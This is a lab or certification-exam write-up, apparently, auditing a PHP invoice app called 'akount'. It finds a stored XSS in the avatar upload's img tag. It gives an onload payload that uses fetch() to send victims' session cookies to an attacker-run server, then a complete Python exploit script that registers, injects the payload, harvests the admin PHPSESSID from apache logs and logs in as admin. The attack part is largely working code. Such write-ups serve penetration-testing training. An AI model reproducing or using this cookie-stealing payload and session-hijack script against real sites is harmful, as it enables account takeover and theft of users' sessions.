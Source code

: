 ## AUDIT

For the akount application we start by navigating to the IP address:

![](../examimages/akount-firstpage.png)

By the first look and feel, the application seems to be an invoice generator.
The application has a signup option.
We can signup for testing purposes:

![](../examimages/akount-signup.png)

After creating an account, we can login, and create new invoices, delete old one's and so on:

![](../examimages/akount-loginfirst.png)

After getting a feel for the application, we can jump on to the source code.
As the source code is in PHP, we can directly open the webroot to analyze the code:

![](../examimages/akount-vscode.png)

Right off the bat, we navigate to the `src` folder, and find the routes.php file.
This file contains all the REST endpoints for the web application, thus this is a good place to start our analysis:

![](../examimages/akount-routes.png)

We see many endpoints, some of the endpoints implement the `$validateAdmin` property.
The endpoints that implement this property, seem to be the one's that require authentication and can only be accessed by an administrator.
The list of endpoints are as follows:

```php
'/logout'
'/admin'
'/admin/delete/{id}'
'/invoices'
'/account'
'/account'
'/upload-avatar'
'/invoice/{id}'
'/invoice/{id}/print'
'/invoice/{id}/file'
'/invoice/{id}/remind'
'/invoice/{id}/delete'
'/invoice/delete/all'
'/invoice-export-xml/'
'/import/'
'/seed/'
'/customers'
'/customer/' 
'/customer/{id}/edit'
'/customer/{id}/delete'
'/customer/{id}/delete/confirm'
'/login'
'/register'
'/forgot'
'/reset/{userId}/{resetToken}/{time}/{pwhash}'
```

A few of these seem interesting such as:
1. `/admin`
2. `/upload-avatar`
3. `/reset`
4. `/seed`

The maximum effort would be taken in the `/invoice` and `/customers` routes as they contain the most amount of endpoints.
Thus, to start with low hanging fruits, we can test the `upload-avatar` endpoint, which seems nothing much but a function to upload an image for user's account.

The endpoint seems to use the `uploadAvatar()` function, from the `AuthController.php` file:

![](../examimages/soapbx-upavatarfunc.png)

Tracking the function:

![](../examimages/soapbx-upavatarfunctrack.png)

We see that the function, grabs the file being uploaded in the request, and store it in the `$uploadedFiles` variable.
The contents are then extracted in the `$avatar` variable which is then passed through a validator function.
If the validation succeeds, the variable is then passed to the `addAvatar` function.

Tracking `addAvatar`:

![](../examimages/akount-trackaddavatar.png)

We see something very interesting in this function.
First the user who uploaded the avatar is defined.
Then, the avatar variable containing the contents of the uploaded file, is placed under an JavaScript `img` tag, using the `htmlspecialchars()` function, which converts some predefined characters to HTML entities, with certain height and width for the avatar.
The bug is that, the user can control the contents of what goes inside the `img` tag, which creates a cross-site Scripting(XSS) vector.

We can test this under the test account we created.
We will first upload a normal image, pass the request to burp, and try to control the contents, to see if we can exploit the bug.

We start with uploading a random picture.
We can navigate to the upload avatar endpoint from the /account endpoint:

![](../examimages/akount-imgupload.png)

Uploading the image:

![](../examimages/akount-imguploaded.png)

Inspecting in burp:

![](../examimages/akount-burp-imgupload.png)

The image is now uploaded, and now we can view-source in our browser to see the data under the image tag:

![](../examimages/akount-img-uploaded-source.png)

We can delete data with burp to make the output more readable:

![](../examimages/akount-img-uploadedbetter.png)


The query we're working with is as follows:
```javascript
<img src='data:image/png;base64,<data we control>' alt='Avatar' width='75px'75px'/>
```

As we can control a part of the data, we can dot he following:
```javascript
<img src='data:image/png;base64,<random bytes>' onload=javascript:alert(1) width='50px' alt='Avatar' width='75px'/>
```

so our payload would be:
```javascript
' onload=javascript:alert(1) width='50px
```

Changing the payload to the same in burp:

![](../examimages/akount-burp-payloaduploaded.png)

and load the page:

![](../examimages/akount-burp-xssalert.png)

We find that our XSS payload, gets executed.

Now that we have an XSS vulnerability we can exploit, by using the onload function to send a request to our apache server with the PHPSESSIONID, to hijack a user's session.
Our payload would be as follows:

```javascript
' onload=javascript:fetch('http://192.168.167.100/id='+document.cookie) width='50px
```


## BURP REQUESTS

Injecting the payload into the application:

![](../examimages/akount-burp-injectfinalpayload.png)

Looking at our apache logs:

![](../examimages/akount-burp-getadminsesscookie.png)

Injecting the cookie into loading the website using burp:

![](../examimages/akount-burp-final.png)

We are able to login as the Admin and grab the local.txt flag.

Opening the session in browser:

![](../examimages/akount-browser-final.png)

## CODE

The Python script for the exploit is as follows:

```python
import requests
import os
from time import sleep

proxies = {"http":"127.0.0.1:8080", "https":"127.0.0.1:8080"}

def main():
    print("[+] PLEASE RUN AS ROOT")
    print("[+] Creating an account")
    s = requests.Session()
    s.post("http://192.168.167.162/register", data={"name":"user", "email":"user@email.com", "password":"pwnuser"})
    print("[+] Logging in....")
    s.post("http://192.168.167.162/login", data={"email":"user@email.com", "password":"pwnuser"})
    print("[+] Running XSS payload")
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://192.168.167.162/account", "Content-Type": "multipart/form-data; boundary=---------------------------93989992317152596293450040338", "Origin": "http://192.168.167.162", "Connection": "close"}
    data = "-----------------------------93989992317152596293450040338\r\nContent-Disposition: form-data; name=\"avatar\"; filename=\"avatar\"\r\nContent-Type: application/octet-stream\r\n\r\ndata:text/html;base64,iVBORw0KGgoAAAANSUhEUgAAARYAAAEcCAYAAAAC1pspAAAABHNCSVQICAgIfAhkiAAAA5lJREFUeJzt1MEJwCAAwEB1E8H9V7RLBIRyN0FemfvsOwBC63UA8D/GAuSMBcgZC5AzFiBnLEDOWICcsQA5YwFyxgLkjAXIGQuQMxYgZyxAzliAnLEAOWMBcsYC5IwFyBkLkDMWIGcsQM5YgJyxADljAXLGAuSMBcgZC5AzFiBnLEDOWICcsQA5YwFyxgLkjAXIGQuQMxYgZyxAzliAnLEAOWMBcsYC5IwFyBkLkDMWIGcsQM5YgJyxADljAXLGAuSMBcgZC5AzFiBnLEDO' onload=javascript:fetch('http://192.168.167.100/id='+document.cookie) width='50px\r\n-----------------------------93989992317152596293450040338--\r\n"
    s.post("http://192.168.167.162:80/upload-avatar", headers=headers, data=data)
    print("[+] Payload uploaded, starting apache server")
    os.system("systemctl start apache2")
    print("[+] waiting for payload to execute....")
    sleep(60)
    print("[+] storing session ID to session.txt")
    os.system('tail -1 /var/log/apache2/access.log | cut -d "/" -f 4 | cut -d "=" -f 3 | cut -d " " -f 1 > session.txt')
    f = open('session.txt', 'r')
    print("[+] user session IDs are as follows:")
    sessionid = f.read()
    f.close()
    print(sessionid)
    print(sessionid.strip())
    print("[+] Logging in with the session key")
    flag_url = "http://192.168.167.162/"
    flag_cookies = {"PHPSESSID": "{}".format(sessionid.strip())}
    getflag = requests.get(flag_url, cookies=flag_cookies)
    getflagresp = open('resp.txt','w')
    getflagresp.write(getflag.text)
    getflagresp.close()
    os.system("""grep -E 'alert.{0,60}' resp.txt | cut -d ">" -f 2 > flag.txt""")
    flag = open('flag.txt', 'r')
    local = flag.read()
    flag.close()
    print("[+] local.txt is:")
    print(local)

main()
```

XSS script extracting local flag:

![](../examimages/akount-final.png)